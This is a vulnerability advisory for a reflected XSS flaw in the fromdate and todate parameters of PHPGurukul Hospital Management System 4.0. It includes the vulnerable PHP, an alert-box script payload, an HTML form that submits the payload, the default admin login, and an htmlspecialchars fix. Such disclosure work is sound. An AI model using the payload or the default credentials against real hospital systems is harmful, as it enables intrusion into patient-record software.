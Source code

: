 # [XSS vulnerability] found in Hospital Management System (HMS) 4.0 - (betweendates-detailsreports.php)

Affected Project: **Hospital Management System (HMS)**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/hospital-management-system-in-php/)

Version: 4.0

Updated: 16 May 2024

Vulnerable path/file: `hms/admin/betweendates-detailsreports.php`

Injection parameter: `fromdate` , `todate`

<br />

Size: 16.7 MB

Sha256: 705263fd0533fde4c8c4d332bf943ea66de98645262cc896f415c897e824455a

<br />

## Vulnerability Description:
The parameters $fdate and $tdate are vulnerable to XSS because they accept user input from the $_POST array and output it directly to the page without any form of sanitization or encoding. This means that if a user submits HTML or JavaScript code within these fields, it will be rendered directly in the HTML output, executing any embedded JavaScript.
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
$fdate=$_POST['fromdate'];
$tdate=$_POST['todate'];

?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate?> to <?php echo $tdate?></h5>
```

<br />

## Injection Payload Tested:

We need to set the `fromdate` and `todate` to:
```
<script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a `POST` request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `betweendates-detailsreports.php` looks like:

<br />

![betweendates-detailsreports.php](https://i.postimg.cc/HnXLvmhw/1.png)

<br />

As it is a `POST` request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:

```
<form method="POST" action="http://localhost/hospital/hms/admin/betweendates-detailsreports.php">
    <input type="text" name="fromdate" value="<script>alert('XSS')</script>">
    <input type="text" name="todate" value="<script>alert('XSS')</script>">
    <input type="submit" value="Submit">
 </form>
```

<br />

Then we have to open it on the browser:

For example: `file:///home/username/Desktop/test_form.html`

<br />

![file](https://i.postimg.cc/T2gY6Rtm/2.png)

<br />

Before submitting the POST request we must be logged in:

Default login info:

Url: `http://localhost/hospital/hms/admin/index.php`

Username: `admin`
Password: `Test@12345`

After submitting the payload using POST with the vulnerable parameters `fromdate` and `todate` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/B6fkcG29/3.png)

then we need to click `OK` so the next POST request executed and XSS triggered.

![xss2](https://i.postimg.cc/5N2GmgQ0/4.png)


## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
$fdate = htmlspecialchars($_POST['fromdate'], ENT_QUOTES, 'UTF-8');
$tdate = htmlspecialchars($_POST['todate'], ENT_QUOTES, 'UTF-8');
?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate ?> to <?php echo $tdate ?></h5>

```

<br />

> One Click Can Change Everything: Be Secure.
